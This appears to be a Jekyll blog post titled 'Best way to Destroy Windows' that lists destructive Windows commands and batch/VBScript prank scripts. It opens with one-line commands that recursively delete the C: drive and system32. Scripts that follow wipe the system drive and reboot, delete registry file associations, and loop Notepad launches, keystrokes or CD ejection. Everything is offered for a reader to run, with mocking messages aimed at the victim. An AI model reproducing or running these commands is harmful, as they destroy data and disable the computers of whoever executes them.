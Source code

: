 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckoff.jpg
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death
Code:
```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

##### 2.2 Stupidity Shutdown
code:
```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

##### 2.3 Delete Key Registry Files
code:
```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

##### 2.4 Endless Notepads
code:
```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

##### 2.5 Crazy caps lock
code:
```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

##### 2.6 Endless Enter
code:
```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

##### 2.7 Endless Backspace
code:
```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

##### 2.8 Popping CD Drives
code:
```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)